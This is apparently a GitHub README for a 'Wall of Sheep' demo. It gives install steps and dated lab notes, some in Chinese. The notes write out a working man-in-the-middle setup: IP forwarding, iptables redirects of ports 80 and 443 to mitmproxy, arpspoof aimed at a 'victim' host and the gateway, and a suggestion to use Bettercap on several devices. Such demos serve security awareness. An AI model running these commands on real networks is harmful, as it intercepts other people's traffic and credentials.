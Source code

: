 # TheWallOfSheep_Demo

## Install requirements
`pip install -r requirements.txt`

### Venv(Options)
If your want to protect your computer envirement, using venv.
`python -m venv venv`
`./venv/Scripts/activate`
or
`source ./venv/Scripts/activate`
then
`pip install -r requirements.txt`

## Put mitm cert into your system
`mitmdump -s ./proxy/proxy.py`
After allowing traffic to pass through the proxy, connect to http://mitm.it. You can download a cert for your system.

## Run Web app

`python ./app/app.py`

## 0829

- Kali
  - sudo sysctl -w net.ipv4.ip_forward=1
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
  - sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
  - mitmproxy -s ./proxy/proxy.py
  - python3 ./app/app.py
host: .60
iphone: .101
mitmproxy: .62
: 因為是透過 websocket 拿 mitmproxy 的東西然後放到前端，如果在 .62 以外的地方打開網頁會看不到 proxy 的流量，所以這邊可能要修改。
: 因為 https 沒有憑證不能解密，所以 mitmproxy 收到 https 時不能用，但是現在 proxy 因為通通攔截下來，所以受害者流量通過 https 時會直接攔截不到，導致網頁直接連不上，看看能不能改成只攔截 http。

## 0830
- sudo iptables -t nat -F
- sudo iptables -t nat -L -v -n
- sudo sysctl -w net.ipv4.ip_forward=1
- sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
- sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
- sudo arpspoof -i eth0 -t 192.168.1.60 192.168.1.1
- sudo arpspoof -i eth0 -t 192.168.1.1 192.168.1.60
- ./venv/bin/mitmdump -v -s ./proxy/proxy.py
- python ./app/app.py

- HTTPS 實際環境上應該抓不到，看看 Web 那端要不要改掉，然後可以用 Bettercap 對多個設備進行 arp spoofing

